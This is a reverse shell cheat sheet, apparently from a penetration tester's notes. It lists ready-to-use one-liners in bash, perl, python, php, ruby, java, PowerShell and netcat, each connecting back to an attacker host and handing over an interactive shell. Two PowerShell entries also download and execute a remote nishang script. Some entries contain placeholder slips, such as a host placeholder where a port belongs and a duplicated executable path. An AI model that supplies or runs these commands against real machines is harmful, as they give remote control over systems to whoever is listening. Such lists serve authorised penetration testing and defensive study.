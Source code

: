 # reverse shell

%reverse shell, reverse
#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## bash - reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl - reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python - reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php - reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby - reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java - reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```


## powershell - reverse shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -c  $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lhost>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## powershell - reverse shell (nishang)
```powershell
powershell -exec bypass -c "IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```
## powershell - reverse shell (edited nishang)
```powershell
powershell -exec bypass -c "iwr('http://<ip>:<http_port>/Edited-Invoke-PowerShellTcp.ps1')|iex"
```

## nc.exe - powershell reverse shell
```powershell
<nc_path|c:\windows\temp>\nc64.exe -nv <lhost> <lhost> -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## nc.exe - cmd reverse shell
```powershell
<nc_path|c:\windows\temp>\nc64.exe\nc64.exe -nv <lhost> <lhost> -e cmd.exe
```

